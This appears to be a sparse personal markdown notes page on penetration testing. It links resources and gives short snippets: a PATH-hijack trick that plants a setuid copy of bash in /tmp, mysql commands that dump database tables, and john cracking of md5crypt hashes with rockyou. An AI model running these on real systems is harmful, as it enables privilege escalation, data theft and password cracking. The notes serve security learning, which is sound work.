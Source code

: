 ```yaml
---
sort : 1
--- 
```



# Soon... 


Network/wireless/physical/Firewall/Social Eng/ .... Penetration testing ?? 
<!-- https://purplesec.us/types-penetration-testing/ -->


<!-- https://start.me/p/PwmnBd/web --> ALL 
<!-- https://www.mindmeister.com/1470766611/web-app-pentest?fullscreen=1 -->



Finding real IP behind CloudFlare or Tor
<!-- https://www.secjuice.com/finding-real-ips-of-origin-servers-behind-cloudflare-or-tor/ -->



# be curious and not just a script kiddie.














# Attacks list

* PATH hijack  
    ```bash
    cd /tmp 
    export PATH=/tmp:$PATH

    echo "reverse shell" > bin
    # OR
    echo -ne '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod 4755 /tmp/bash' > bin 
    
    chmod +x bin
    ...

    ```
* Execution After Redirect (EAR)
* mysql ?? 
    ``` 
    mysql -u root -p 'passwd between qoutes' -e 'show databases;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'show tables;'
    mysql -u root -p 'passwd between qoutes' databaseName -e 'select * from table;' 
    ```







# Hash cracking
```bash
# md5   $1$ 

echo "hash" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt



# if you know the salt 




```